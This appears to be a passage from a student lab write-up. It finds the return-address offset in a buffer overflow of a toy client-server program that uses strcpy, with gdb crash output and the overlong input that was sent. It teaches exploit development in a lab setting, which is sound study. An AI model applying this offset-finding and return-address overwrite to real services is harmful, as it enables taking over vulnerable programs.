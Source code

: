 So if we passed more than 128 char, we can rewrite some others space in memory
and the server SEG FAULT. This is because strcpy is an unsafe function. So
let's see how many char we can entered before rewriting the return address...
We gonna send for example "A"x128 + 0123456789azertyuiopqsdfghjklmwxcvbn 

```sh
    THE SERVER

	[student@localhost Documents]$ gdb -q server
	Reading symbols from /home/student/Documents/server...
	(no debugging symbols found)...done.
	(gdb) run
	Starting program: /home/student/Documents/server 
	[Thread debugging using libthread_db enabled]
	[New Thread 0xb7ff0b70 (LWP 9382)]
	[Thread 0xb7ff0b70 (LWP 9382) exited]
	[New Thread 0xb7ff0b70 (LWP 9387)]

	Program received signal SIGSEGV, Segmentation fault.
	[Switching to Thread 0xb7ff0b70 (LWP 9387)]
	0x7a613938 in ?? ()
	Missing separate debuginfos, use: debuginfo-install 
	glibc-2.12-1.149.el6.i686
	(gdb) 
```

```sh
		THE CLIENT

	[student@localhost Documents]$ ./client
	Please select an option:
	1. Time
	2. Date
	1
	The time is 02:17 PM
	Do you wish to continue? (Y/N)
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0123456789
	azertyuiopqsdfghjklmwxcvbn
```

So what is interesting is this part [server] :

```sh
	Program received signal SIGSEGV, Segmentation fault.
	[Switching to Thread 0xb7ff0b70 (LWP 9387)]
	0x7a613938 in ?? ()
```

this part tell us that the server Seg Fault and that the return address is now
0x7a613938 Or a table HEX to ASCII tells us that 0x7a613938 = za98 so in Big 
Endian : 89az. Thus we can entered : "A"x128 + 0123456789az = 140 char before
rewriting the return addr.
